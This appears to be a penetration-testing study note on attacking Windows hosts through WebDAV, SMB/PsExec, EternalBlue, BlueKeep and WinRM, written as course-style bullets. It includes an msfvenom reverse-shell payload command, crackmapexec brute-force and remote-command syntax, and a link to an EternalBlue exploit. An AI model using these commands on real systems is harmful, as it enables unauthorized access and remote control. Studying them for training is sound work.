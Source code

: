 # Host & Network Penetration Testing: System/Host Based Attacks

Intro: system/host based attacks are targeted towards a specific system or host running a specific os

## Windows

### Webdav
**Continue from previous webdav lessons...Uploading msf backdoor to WebDAV**
- msfvenom is to create payload `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > meterpreter.asp
- can also use `iis_webdav_upload` module in the framework instead of `cadaver` which is fully self contain

### SMB with PsExec

- before using psexec, valid credentials are needed, administrator account can be frute force
- brute force module name: `smb_login`
- The `smb/psexec` module in msf will very likely get caught but antivirus
- Manual exploit using psexec.py from impacket, install with `sudo apt install impacket-scripts`

### Eternal Blue MS17-010

What is shellcode?
Shellcode is a small piece of machine-level code (usually written in assembly) that an attacker uses as a payload — it's the code that gets executed once an exploit successfully gains control of a vulnerable process.

- Manual exploit available @ [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

how is shellcode related to MS17
1. The exploit causes a buffer overflow on a vulnerable system.
2. The attacker injects custom shellcode into memory as part of the payload.
3. Once the overflow occurs, the system executes the shellcode — giving you control.


### RDP

- The rdp_scanner module can varify if the port is running rdp
- After confirm, we can brute force the protocol

**BLUEKEEP (CVE-2019-0708)**

- An RDP vulnerability
- msf got both an auxiliary and exploit module for bluekeep (this module only work with 64bit windows, and also need to manually set target)
- Be EXTREMELY careful with kernel exploit, set CHUNK froom size smaller to be a bit gentle to the target machine

### WinRM

- not enabled by default need to be explicitly configured and enabled
- it allows sysadmin just provide username and userpassword/passwordhash to authenticate
- we can perform a bruteforce attack with "crackmapexec" syntax: `crackmapexec <protocol:winrm> <IP> -u <username:admin> -p <password list>
- to execute command with crackmapexec, syntax is: 'crackmapexec <protocol:winrm> <IP> -u <username> -p <password> -x <command to execute>
- to get command shell session we use "evil-winrm"
- msf also has a module: 'winrm_script_exec'
- TIPS: BY DEFAULT NMAP DOES NOT SCAN WINRM PORT 5985-5986

**Note: We are setting the PASSWORD because in the recent version of the "winrm_login" module, the PASSWORD option is required unless using Kerberos authentication. Metasploit will still use the USERPASS_FILE file.**

### Kernel Exploits & Priv Esc for windows

## Linux
